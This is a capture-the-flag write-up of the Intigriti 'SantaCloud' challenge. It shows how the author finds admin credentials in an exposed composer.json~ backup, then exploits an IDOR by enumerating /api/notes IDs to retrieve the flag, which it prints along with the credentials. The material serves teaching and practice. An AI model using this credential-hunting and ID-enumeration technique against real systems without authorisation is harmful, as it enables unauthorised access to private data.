


+++
title = 'Intigriti | SantaCloud Challenge Writeup'
date = 2025-12-29T00:00:00-01:00
draft = false
tags = ['IDOR']
description = "Sensitive information exposed plus an IDOR, and voilà, the flag ^^ This write-up covers the SantaCloud Intigriti challenge from this holiday season."
+++

During the holidays, just when I thought the Xmas CTFs were over, I received a Discord notification about a special Intigriti holiday challenge. With one more to go, that, kids, is how a cozy day quietly turns into a cozy day _sprinkled with flags_. SantaCloud was a cool and simple challenge where recon was the key.

Let's get into its details.

We first land on `https://santacloud.intigriti.io/home`. We can see that we have an access portal where we can only sign in.
 

We try enumerating the different endpoints by inspecting the code of the pages :

-`home` and `/login` which provide the same functionality of logging in, and we can see from the code source of the latter that once we do we will be redirected to `/dashboard`. 
- `/dashboard` providing a global dashboard including `/inventory` and `/map`
- `/profile` to view the user profile 
- `/notes` to access notes
- `/up` which is a healthcheck endpoint for the app 

Nevertheless, to really access the `/dashboard` and be able to interact with the last 5 endpoints, we need to login, as an `auth_login` is needed.

We first try to check for any vulnerabilities in the login form. We try different payloads even for NoSQLi, but in vain. 

Hence, we dig a bit more into recon. Through fuzzing, we find `/robots.txt` with the following content :
```markdown
User-agent: *
Allow: /

# Disallow indexing of sensitive config files
Disallow: /package.json
Disallow: /backup.json
Disallow: /artisan
Disallow: /.env
Disallow: /.env.local
Disallow: /composer.json
Disallow: /composer.json*
Disallow: /composer.json~
```
Given the latter, we try to access the endpoints listed in the file. After some seconds, we obtain code 200 for `https://santacloud.intigriti.io/composer.json~`.

We check its content and we obtain the content below :
```json
{
    "name": "intigriti-challenges/santacloud",
    "type": "project",
    "description": "SantaCloud - Supply Chain Portal",
    "version": "13.3.7",
    "keywords": ["laravel", "gifts", "christmas"],
    "license": "MIT",
    "config": {
        "admin-access": {
            "username": "elf_supervisor",
            "password": "CookiesAndMilk1337",
            "api-endpoint": "http://santacloud.intigriti.io/login",
        },
        "env": {
            "secret": "INTIGRITI{019b118e-e563-7348",
            "ttl": 3600
        }
    },
    "require": {
        "php": "^8.2",
        "laravel/framework": "^10.0",
        "firebase/php-jwt": "^6.10"
    },
    "authors": [
        {
            "name": "Elf Supervisor",
            "email": "devops@santacloud.intigriti.io"
        }
    ],
    "support": {
    }
}
```
This file contains what we need _and more_ as it holds not only the admin credentials but also a part of the flag! This is pure "Use of Hard-coded Credentials" as such file should never be exposed.

Let's login using `elf_supervisor:CookiesAndMilk1337`, now we have full access to the app and we see that our user is admin. 


We check the internal notes, and we read the last one which says : 

```markdown
URGENT: API Security Training Schedule
12/25/2025
Shared
Following yesterday's incident where an elf worker discovered unauthorized gift allocations through cookie delivery logs, we're implementing mandatory API security training: week 1: Authentication Fundamentals, week 2: Data Access Control & Authorization, week 3: Input Validation & Security Patterns. INCIDENT SUMMARY: A naughty-list recipient somehow received gifts meant for multiple users. Initial investigation suggests they manipulated their user identifier in API requests to access other recipients' gift allocations. We must prevent parameter tampering going forward.
```
That suggests an Insecure Direct Object Reference (IDOR) somewhere 👀

We also see in the javascript of the `/notes` page the following : 
```js
// Edit note
window.editNote = async function(noteId) {
    try {
        const response = await fetch(`/api/notes/${noteId}`, {
            headers: {
                'Authorization': `Bearer ${token}`
            }
        });

        if (response.ok) {
            const data = await response.json();
            const note = data.note;

            document.getElementById('form-title').textContent = 'Edit Note';
            document.getElementById('note-id').value = note.id;
            document.getElementById('note-title').value = note.title;
            document.getElementById('note-content').value = note.content;
            document.getElementById('note-private').checked = note.is_private;
            document.getElementById('note-form-container').classList.remove('hidden');
            window.scrollTo({ top: 0, behavior: 'smooth' });
        }
    } catch (error) {
        console.error('Error loading note:', error);
        alert('Error loading note. Please try again.');
    }
};
```
So, we can actually access notes using `/api/notes/${noteId}`. After adding to our requests the header `Authorization: Bearer <our_auth_token>`, let's try to enumerate them one by one. 

One, Two.. and we got our flag in the third note by running the request `GET /api/notes/3 HTTP/2` ! 

```markdown
HTTP/2 200 OK
Date: Fri, 26 Dec 2025 01:38:13 GMT
Content-Type: application/json
Vary: Authorization
X-Powered-By: PHP/8.2.30
Cache-Control: no-cache, private
Access-Control-Allow-Origin: *
Strict-Transport-Security: max-age=31536000; includeSubDomains

{ "success":true,
  "note":
        {
            "id":3,
            "user_id":1,
            "title":"The Secret Key",
            "content":"INTIGRITI{019b118e-e563-7348-a377-c1e5f944bb46}",
            "is_private":true,"created_at":"2025-12-25T18:59:10.000000Z",
            "updated_at":"2025-12-25T18:59:10.000000Z"
        }
}
```


Finally, our flag is complete :
**INTIGRITI{019b118e-e563-7348-a377-c1e5f944bb46}**
